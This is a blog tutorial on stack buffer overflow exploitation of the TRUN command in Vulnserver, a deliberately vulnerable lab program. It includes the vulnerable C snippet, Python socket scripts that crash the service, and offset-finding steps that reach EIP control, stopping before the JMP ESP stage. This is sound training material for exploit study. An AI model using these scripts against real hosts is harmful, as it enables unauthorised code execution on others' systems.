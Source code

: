 ```yaml
---
layout: single
title: Classic JMP ESP buffer overflow exploitation - remote overflow in Vulnserver
---
```


This post covers the beginning of any exploit developers journey, the classic buffer overflow exploitation. 

This post covers the exploitation of the Vulnererver TRUN command, utilizing a JMP ESP and EIP overwrite to obtain remote code execution on a system.

So what exactly is a buffer overflow vulnerability? A buffer overflow vulnerability is a software programming error that occurs commonly in C, and c++  applications when the software author uses insecure functions.  A buffer overflow vulnerability is where an input function is not validating the amount of user input that is given, which will allow a user to give too much the data that can then overwrite the buffer sized amount that is designated for the input, and start  writing data onto the stack.

The classic exploitation technique for a standard buffer overflow is to fill up the input buffer, and calculate exactly how much data you need to precisely place a JMP instruction within the EIP  memory register. The EIP memory register is responsible for pointing to the next address that is going to be executed, if the attacker can add a JMP instruction into this EIP register, they can have that JMP instruction point to a malicious payload, a malicious shellcode payload.

While auditing the source code for this application, you can see that the TRUN  command takes user input using the insecure strncpy function, this allows for an attacker to abuse the applications buffer overflow vulnerability.

```c
			} else if (strncmp(RecvBuf, "TRUN ", 5) == 0) {
				char *TrunBuf = malloc(3000);
				memset(TrunBuf, 0, 3000);
				for (i = 5; i < RecvBufLen; i++) {
					if ((char)RecvBuf[i] == '.') {
						strncpy(TrunBuf, RecvBuf, 3000);			// <------------	
						Function3(TrunBuf);
						break;
					}
				}
```

Start running the vulnserver application, make sure your firewall is configured to allow this local connection. 

![vulnserver 1](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/vulnserver/vulnserver1.png)

First a basic nc connection to the victim machine on port 9999 shows that Vulnserver is actively running.

![vulnserver 2](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/vulnserver/vulnserver2.png)

Use Immunity debugger and attach the running vulnserver application to it, this will allow you to monitor and fully get a grasp on the application being exploited.

![vulnserver 3](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/vulnserver/vulnserver3.png)

With the vulnserver application running on port 9999 on the victim host target, you can use a basic python socket connection in order to send data to this command.

```python
import socket

victim_host = "10.0.0.161"
port = 9999

payload = "A" * 4000
buffer_exploit = "TRUN /.:/" + payload

expl = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
expl.connect((victim_host, port))
expl.send(buffer_exploit)

print("[x] Sent TRUN + malicious payload to the victim")
print("[!] You may need to send it multiple times")
expl.close()
```
After you send the vulnerable application the buffer of A's, you can observe the application crashing. The overwritten registers show this is being successfully exploited.

![vulnserver 4](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/vulnserver/vulnserver4.png)

Now that we can confirm it is vulnerable to a classic EIP overwritten buffer overflow, we need to figure out exactly how big the buffer size is when we write data into the program, it crashes with 4000 bytes, but how big is the buffer? 

If we can determine how big the buffer is, we can fill it up, and the next data after it will be written into the EIP registers (4 bytes), which we need to control.

We can use the pattern_create tool from metasploit, this creates a unique pattern every few bytes, if we crash the program with this, we can see exactly where the EIP register has been overwritten.

```
└─▪ ./pattern_create.rb -l 4000
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6.........
```

Send this unqiue string to the application instead of all A's

![vulnserver 5](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/vulnserver/vulnserver5.png)

Now you can see the EIP register has been overwritten with 386F4337, this is a section of the unique pattern we sent, you can use the mona.py Immunity debugger extension as set up in the previous post (https://fullpwnops.com/immunity-windbg-mona/) to calculate this buffer size.

Use the command `!mona findmsp` to have mona calculate exactly how much data it took to overwrite the EIP register.

![vulnserver 6](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/vulnserver/vulnserver6.png)

Now we know it took exactly 2003 bytes to fill up the input buffer, so if we send 2007 bytes, the 4 bytes after the buffer are going to overwrite the EIP register.

Add this to our exploit script.

```python
import socket

victim_host = "10.0.0.161"
port = 9999

payload = "A" * 2003
payload += "B" * 4

buffer_exploit = "TRUN /.:/" + payload

expl = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
expl.connect((victim_host, port))
expl.send(buffer_exploit)

print("[x] Sent TRUN + malicious payload to the victim")
print("[!] You may need to send it multiple times")
expl.close()
```

Now when you re-send your exploit to the application, you can see the EIP register is now 42424242, which is our 4 B's send after our A's, we control the EIP register!

Now that we can control what address get's executed next, we want to find a JMP ESP instruction, which will allow us to jump to our payload.
